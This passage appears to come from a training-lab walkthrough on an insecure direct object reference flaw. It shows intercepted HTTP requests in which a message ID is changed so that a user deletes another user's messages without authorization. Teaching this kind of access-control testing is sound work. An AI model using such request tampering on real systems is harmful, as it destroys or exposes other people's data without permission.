 
**Step 2:** Observe the request structure:
```
GET /delete_message/3 HTTP/2
Host: 678aa840859cc728c0ad9211-lb-732.bm-north.lab.poridhi.io
Cookie: session=eyJ1c2VyX2lkIjoyLCJ1c2VybmFtZSI6IlVzZXIyIn0.Z92edQ.4TuLxICSCHi3qMS0suI3w4Jp41g
```

**Step 3:** Modify the message ID to target "User1"'s message:
```
GET /delete_message/1 HTTP/2
Host: 678aa840859cc728c0ad9211-lb-732.bm-north.lab.poridhi.io
Cookie: session=eyJ1c2VyX2lkIjoyLCJ1c2VybmFtZSI6IlVzZXIyIn0.Z92edQ.4TuLxICSCHi3qMS0suI3w4Jp41g
```

Repeat for the message 2 as well.

**Step 4:** Forward the modified request and observe that you can delete another user's message without proper authorization!

